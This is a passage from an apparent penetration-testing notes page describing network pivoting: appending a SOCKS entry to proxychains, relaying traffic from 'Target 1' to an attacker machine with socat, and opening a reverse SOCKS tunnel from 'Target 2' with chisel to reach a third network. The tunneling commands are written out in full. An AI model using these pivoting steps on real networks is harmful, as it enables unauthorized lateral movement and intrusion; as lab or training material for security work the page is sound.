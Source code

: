 ```bash
echo "socks5 127.0.0.1 5555" >> /etc/proxychains4.conf #it adds IP and port in listening mode on chisel attacker machine
```

<div align="left">

<figure><img src="../../../.gitbook/assets/image (54).png" alt=""><figcaption><p>/etc/proxychains4.conf</p></figcaption></figure>

</div>

{% hint style="info" %}
If we'll give an error during next connections, we need to insert line to the top line of the previous request (as photo) or if "dynamic\_chain" option is commented out and strict\_chain" option is uncommented.
{% endhint %}

Execute socat on target 1 using a different port on listening and attacker machine IP and Port:

```bash
#Target 1
./socat tcp-l:2222,fork,reuseaddr tcp:10.10.10.4:111 #tcp-l: listening port, send data to tcp:attacker:port
```

while we execute chisel on target 2 (using Target 1's IP of 2nd net interface in common between target 1 and 2, in addition we specify proxychains socks port: with R:5555:socks):

```bash
#Target 2
./chisel client 20.20.20.7:2222 R:5555:socks
```

well done, we obtained a new session tunnel on Kali:

<div align="left">

<figure><img src="../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

</div>

Now, we've visibility with the target 3.

```bash
#Kali
proxychains curl 30.30.30.4
```
